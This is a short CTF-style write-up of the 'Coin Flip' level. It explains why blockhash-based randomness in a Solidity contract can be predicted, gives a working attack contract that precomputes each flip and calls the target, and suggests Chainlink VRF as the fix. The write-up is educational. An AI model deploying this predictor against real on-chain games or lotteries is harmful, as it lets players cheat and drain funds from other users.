 ```yaml
---
title: Level 3 - Coin Flip
slug: level3
published: 05-15-2023
lastEdited:
---
```


## Objectives

1. Guess correctly 10 coin flips in a row.

## Vulnerabilities

### Block data is a bad source of randomness.

Relying on `block.timestamp`, now or `blockhash` is a bad source of randomness that can be exploited.
In here, the way to determine the correct answer of the flip can be used by an attacker to "guess"
the correct result before calling the `flip` function.

## Exploit

1. Write and deploy an attack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

1. Use an oracle link Chainlink for a safer source of randomness

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
